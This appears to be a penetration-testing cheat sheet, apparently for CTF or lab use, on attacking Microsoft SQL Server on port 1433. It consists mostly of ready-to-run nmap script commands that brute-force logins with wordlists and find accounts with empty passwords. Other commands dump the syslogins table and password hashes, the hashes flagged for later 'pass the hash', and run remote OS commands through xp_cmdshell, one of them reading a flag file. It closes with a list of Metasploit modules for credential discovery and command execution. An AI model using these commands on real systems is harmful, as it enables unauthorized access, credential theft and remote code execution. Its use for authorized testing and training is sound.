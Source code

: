 # Enumeration: MSSQL
> MSSQL is Microsoft's version of an SQL database.

- Default MSSQL Port: `1433`

## Contents
- [Nmap Scripts](#nmap-scripts)
  - [ms-sql-info](#ms-sql-info)
  - [ms-sql-ntlm-info](#ms-sql-ntlm-info)
  - [ms-sql-brute](#ms-sql-brute)
  - [ms-sql-empty-password](#ms-sql-empty-password)
  - [ms-sql-query](#ms-sql-query)
  - [ms-sql-dump-hashes](#ms-sql-dump-hashes)
  - [ms-sql-xp-cmdshell](#ms-sql-xp-cmdshell)
- [MetaSploit](#metasploit)

## Nmap Scripts

### ms-sql-info
> This gives you a little more info than a standard nmap version scan (e.g., patches applied: true|false).
```
nmap -p 1433 --script ms-sql-info [target ip]
```

### ms-sql-ntlm-info
> This gives us the Target_Name and other similar info
```
nmap -p 1433 --script ms-sql-ntlm-info --script-args mssql.instance-port=1433 [target ip]
```

### ms-sql-brute
> This gives us some login creds (usernames/pwds)
```
nmap [target ip] -p 1433 --script ms-sql-brute --script-args userdb=/root/Desktop/wordlist/common_users.txt,passdb=/root/Desktop/wordlist/100-common-passwords.txt
```

### ms-sql-empty-password
> Check for usernames with no password
```
nmap [target ip] -p 1433 --script ms-sql-empty-password
```

### ms-sql-query
```
nmap -p 1433 --script ms-sql-query --script-args mssql.username=admin,mssql.password=anamaria,ms-sql-query.query="SELECT * FROM master..syslogins" [target ip] -oN output.txt
```
- Note: The query statement is the example given in the Nmap [NSE documentation](https://nmap.org/nsedoc/scripts/ms-sql-query.html).
  - You could try [syslogins](https://learn.microsoft.com/en-us/sql/relational-databases/system-compatibility-views/sys-syslogins-transact-sql?view=sql-server-ver16) or [sysusers](https://learn.microsoft.com/en-us/sql/relational-databases/system-compatibility-views/sys-sysusers-transact-sql?view=sql-server-ver16) or etc.
- Run a query using some of the info we've found so far.
- The output is a db dump, so it looks like a mess on your screen. That's why we did the -oN  (output Normal) to a text file.
- Open that text file in a text editor with monospace font
- Lots of goodies there about system and user logins. Enumerate. 

### ms-sql-dump-hashes
> This is good info to enumerate (maybe "pass the hash" later on)
```
nmap [target ip] -p 1433 --script ms-sql-dump-hashes --script-args mssql.username=admin,mssql.password=anamaria
```

### ms-sql-xp-cmdshell
> Try to run some actual code on the target machine via their mssql instance. If you get a response to the command, you know you can execute code on the remote system.
```
nmap [target ip] -p 1433 --script ms-sql-xp-cmdshell --script-args mssql.username=admin,mssql.password=anamaria,ms-sql-xp-cmdshell.cmd="ipconfig"
```
> Read a file on the remote system
```
nmap [target ip] -p 1433 --script ms-sql-xp-cmdshell --script-args mssql.username=admin,mssql.password=anamaria,ms-sql-xp-cmdshell.cmd="type c:\flag.txt"
```

## MetaSploit
> Modules to Enumerate MSSQL

- `mssql_enum` : enumerate MSSQL configuration
- `mssql_enum_sql_logins` : enumerate all MSSQL logins
- `mssql_login` : discover valid users and their passwords
- `mssql_exec` : execute a command on the target machine
- `mssql_enum_domain_accounts` : enumerate all available system users

